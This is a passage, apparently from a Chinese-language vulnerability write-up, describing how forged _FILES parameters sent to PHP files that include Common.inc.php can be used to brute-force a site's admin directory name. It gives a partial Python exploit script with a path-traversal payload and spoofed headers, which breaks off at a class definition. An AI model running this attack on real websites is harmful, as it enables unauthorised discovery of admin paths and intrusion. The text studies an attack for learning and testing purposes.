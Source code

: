 Common.inc.php 是被全局包含的文件，只要文件php文件包含了Common.inc.php都可以进行测试，以tags.php文件为例

当目录存在点时候

![image](img/310cc423b2de1a47c848577d65de539e.png)

当目录不存在点时候

### python脚本

```
#!/usr/bin/env python
#coding:utf-8
import requests
import itertools
from random import choice
import sys

characters = “abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789_!#@-”

back_dir = “”

show_message = {}

check_message = {}

valid_file = []

data = {

“_FILES[tools][tmp_name]” : “./…/{p}img/adminico.gif”,

“_FILES[tools][name]” : 0,

“_FILES[tools][size]” : 0,

“_FILES[tools][type]” : “image/gif”

}

headers = {

```
 "User-Agent":"Mozilla/5.0 (Windows NT 6.1; WOW64; rv:40.0) Gecko/20100101 Firefox/40.0",
                "Accept":"text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8",
                "Accept-Language":"zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3",
                "Content-Type":"application/x-www-form-urlencoded",
                "Connection":"Close" 
```

}

class Bute_Login:
```